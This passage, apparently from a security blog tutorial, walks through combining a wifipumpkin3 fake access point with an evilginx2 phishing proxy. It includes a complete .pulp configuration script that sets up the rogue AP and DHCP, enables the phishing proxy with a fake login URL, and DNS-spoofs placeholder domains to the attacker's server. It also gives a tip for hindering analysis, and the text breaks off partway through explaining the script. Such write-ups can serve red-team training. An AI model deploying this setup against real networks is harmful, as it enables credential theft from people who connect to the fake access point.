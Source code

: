 Note that, highlighted in red, our domain, external_ip, and bind_ip are configured in accordance (I always wanted to use that word) with our /etc/hosts, and highlighted in green, we have a bind error because our environment was not set up.

![RR](/assets/img/posts/phishkin3/evilgnix2lures.png)

A very important step is to configure the evilginx2 redirect_url so that step 5 is executed, and internet access permission is granted by the fake AP. If you are interested, the /verify path can be changed via wp3 configuration using the set phishkin3.allow_user_login_endpoint command. This way, a patch can be inserted using a hash, for example, making some analysis difficult.

In wp3, we must set up a DNS spoof attack where we will add all the domains configured in /etc/hosts so that in the resolution process of the DNSServer in wp3, they are linked to the address 172.16.0.1, and all clients connected to the Fake AP when sending a DNS query to yourfakedomain.com for an HTTP query will be redirected to the evilginx2 server.

``` sh
-- cut here file: evilnix_config.pulp 
set interface wlxc83a35cef744
dhcpconf 1
set proxy phishkin3 true
set phishkin3.cloud_url_phishing https://login.yourfakedomain.com/woqfrPHo
set phishkin3.proxy_port 8080
set phishkin3.redirect_url_after_login https://google.com
set phishkin3.allow_user_login_endpoint /verify
use spoof.dns_spoof
add login.yourfakedomain.com
add account.yourfakedomain.com
add *.yourfakedomain.com
set redirectTo 172.16.0.1
start
back
start
```

Note that our .pulp script contains some important information to mention.

1 - We set our Wireless card that we will use in the attack.
2 - We change the DHCPServer configuration to 1, which will be the IP range where we will perform the attack, where the gateway will be 172.16.0.1.
